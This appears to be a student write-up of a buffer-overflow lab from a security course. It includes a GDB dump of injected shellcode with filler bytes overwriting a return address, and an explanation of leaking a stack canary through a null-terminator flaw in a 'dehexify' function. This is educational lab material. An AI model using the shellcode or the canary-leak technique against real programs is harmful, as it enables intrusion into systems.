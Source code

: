 ```c
(gdb) x/38x &msg
0xffffd838:     0xcd58326a      0x89c38980      0x58476ac1      0xc03180cd
0xffffd848:     0x692d6850      0xe2896969      0x6d2b6850      0xe1896d6d
0xffffd858:     0x2f2f6850      0x2f686873      0x896e6962      0x515250e3
0xffffd868:     0x31e18953      0xcd0bb0d2      0xaaaaaa80      0xaaaaaaaa
0xffffd878:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0xffffd888:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0xffffd898:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0xffffd8a8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0xffffd8b8:     0x00000099      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0xffffd8c8:     0xaaaaaaaa      0xffffd838
```

After 57 bytes of shellcode and 91 bytes of garbage, the rip is overwritten with `0xffffd8cc`, which points to the shellcode at `msg` (`0xffffd838`).

## Question 3

### Main Idea

The code is vulnerable because the function `dehxify` consumes 4 bytes at once from buffer if the first 2 bytes are `\\` and `x` respectively. In this case, there is no null check the third or fourth byte and they are consumed *blindly*. Since the function does not stop consuming from buffer until it *sees* a null byte, the trailing null byte automatically appended by the `gets` function is skipped if our input to buffer ends with `\\x` (or `\\x` followed by any 1 byte of content). This allows us to trick the program to continue printing contents past the end of buffer and reveal to us the value of the stack canary. After that, we can perform a simple overflow attack to overwrite the value of the `rip` of `dehxify`.

### Magic Numbers

We first determine the address of the local variable `c.buffer` (*0xffffd8dc*) and of the `rip` of `dehxify` (*0xffffd8fc*). This is done by invoking GDB and setting a breakpoint at line 22.

```c
(gdb) p &c.buffer
$3 = (char (*)[16]) 0xffffd8dc
```

```c
(gdb) i f
Stack level 0, frame at 0xffffd900:
 eip = 0x804922e in dehexify (dehexify.c:22); saved eip = 0x8049341
 called by frame at 0xffffd920
 source language c.
 Arglist at 0xffffd8f8, args:
 Locals at 0xffffd8f8, Previous frame's sp is 0xffffd900
 Saved registers:
  ebp at 0xffffd8f8, eip at 0xffffd8fc
```

By doing so, we learned that the location of the return address from this function was 32 bytes away from the start of the location of the `c.buffer` local variable.

